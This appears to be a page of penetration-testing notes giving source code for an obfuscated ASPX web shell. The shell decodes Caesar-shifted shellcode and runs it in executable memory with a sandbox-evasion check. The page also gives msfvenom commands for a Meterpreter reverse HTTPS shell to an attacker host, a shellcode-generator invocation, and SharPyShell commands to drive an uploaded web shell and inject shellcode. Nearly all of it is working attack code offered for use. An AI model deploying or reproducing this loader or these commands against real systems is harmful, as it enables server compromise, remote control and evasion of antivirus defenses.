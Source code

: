 #### ObfuscatedWebshell.aspx

    //msfvenom -p windows/x64/meterpreter/reverse_https LHOST=tun0 LPORT=443 -f aspx -o /tmp/met.aspx
    //then use CaesarHelper.exe to encode the shellcode portion and replace here (w/ length):

    <%@ Page Language="C#" AutoEventWireup="true" %>
    <%@ Import Namespace="System.IO" %>
    <script runat="server">
        private static Int32 MEM_COMMIT=0x1000;
        private static IntPtr PAGE_EXECUTE_READWRITE=(IntPtr)0x40;

        [System.Runtime.InteropServices.DllImport("kernel32")]
        private static extern IntPtr VirtualAlloc(IntPtr lpStartAddr,UIntPtr size,Int32 flAllocationType,IntPtr flProtect);

        [System.Runtime.InteropServices.DllImport("kernel32")]
        private static extern IntPtr CreateThread(IntPtr lpThreadAttributes,UIntPtr dwStackSize,IntPtr lpStartAddress,IntPtr param,Int32 dwCreationFlags,ref IntPtr lpThreadId);

        [System.Runtime.InteropServices.DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        private static extern IntPtr VirtualAllocExNuma(IntPtr hProcess, IntPtr lpAddress, uint dwSize, UInt32 flAllocationType, UInt32 flProtect, UInt32 nndPreferred);
        [System.Runtime.InteropServices.DllImport("kernel32.dll")]
        private static extern IntPtr GetCurrentProcess();

        protected void Page_Load(object sender, EventArgs e)
        {
            IntPtr mem = VirtualAllocExNuma(GetCurrentProcess(), IntPtr.Zero, 0x1000, 0x3000, 0x4, 0);
            if(mem == null)
            {
                return;
            }
            //msfvenom -p windows/x64/meterpreter/reverse_https LHOST=tun0 LPORT=443 -f aspx -o /tmp/met.aspx
            //then use CaesarHelper to encode shellcode
            byte[] dF1YBfjQ = new byte[684] {0xfe, 0x4a, 0x85, 0xe6, 0xf2, 0xea, 0xce, 0x02, 0x02, 0x02, 0x43, 0x53, 0x43, 0x52, 0x54, 0x4a, 0x33, 0xd4, 0x53, 0x67, 0x4a, 0x8d, 0x54, 0x62, 0x58, 0x4a, 0x8d, 0x54, 0x1a, 0x4a, 0x8d, 0x54, 0x22, 0x4f, 0x33, 0xcb, 0x4a, 0x11, 0xb9, 0x4c, 0x4c, ...................................................................


            for(int i = 0; i < dF1YBfjQ.Length; i++)
            {
                dF1YBfjQ[i] = (byte)(((uint)dF1YBfjQ[i] - 2) & 0xFF);
            }

            IntPtr gF2p__4 = VirtualAlloc(IntPtr.Zero,(UIntPtr)dF1YBfjQ.Length,MEM_COMMIT, PAGE_EXECUTE_READWRITE);
            System.Runtime.InteropServices.Marshal.Copy(dF1YBfjQ,0,gF2p__4,dF1YBfjQ.Length);
            IntPtr jn8rwz6JN = IntPtr.Zero;
            IntPtr jqnMhJu = CreateThread(IntPtr.Zero,UIntPtr.Zero,gF2p__4,IntPtr.Zero,0,ref jn8rwz6JN);
        }
    </script>

#### Another Method - aspx_shellcode_generator.py
    
    - `python3 aspx_shellcode_generator.py --LHOST 192.168.49.121 --LPORT 443`

#### Another Method - SharPyShell

    python3 SharPyShell.py generate -p "abc123"
    python3 SharPyShell.py interact -u 'http://192.168.189.132/upload/sharpyshell.aspx' -p 'abc123'
    #exec_cmd whoami /all
    msfvenom -p windows/x64/meterpreter/reverse_https LHOST=tun0 LPORT=443 -f raw -o /tmp/sc_raw
    #inject_shellcode /tmp/sc_raw